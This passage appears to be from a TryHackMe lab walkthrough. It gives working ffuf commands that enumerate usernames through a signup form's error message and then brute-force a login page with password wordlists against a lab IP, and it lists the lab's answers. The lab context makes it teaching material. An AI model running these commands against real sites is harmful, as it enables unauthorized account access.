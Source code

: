 Save the results from this command into a file called valid_usernames.txt which we can use in a later task and then answer the questions below.

```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.163.208/customers/signup -mr "username already exists"
```

```
What is the username starting with si*** ?
> simon
```

```
What is the username starting with st*** ?
> steve
```

```
What is the username starting with ro**** ?
> robert
```

## Task 3 - Brute Force

Using the valid_usernames.txt file we generated in the previous task, we can now use this to attempt a brute force attack on the login page (http://10.10.163.208/customers/login).

A brute force attack is an automated process that tries a list of commonly used passwords against either a single username or, like in our case, a list of usernames.

When running this command, make sure the terminal is in the same directory as the valid_usernames.txt file.

```telnet
                Bruteforcing with ffuf

user@tryhackme$ ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.163.208/customers/login -fc 200
```

This ffuf command is a little different to the previous one in Task 2. Previously we used the FUZZ keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword. In this instance, we've chosen ```W1``` for our list of valid usernames and ```W2``` for the list of passwords we will try. The multiple wordlists are again specified with the ```-w``` argument but separated with a comma.  For a positive match, we're using the ```-fc``` argument to check for an HTTP status code other than 200.

Running the above command will find a single working username and password combination that answers the question below.

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.163.208/customers/login -fc 200
```
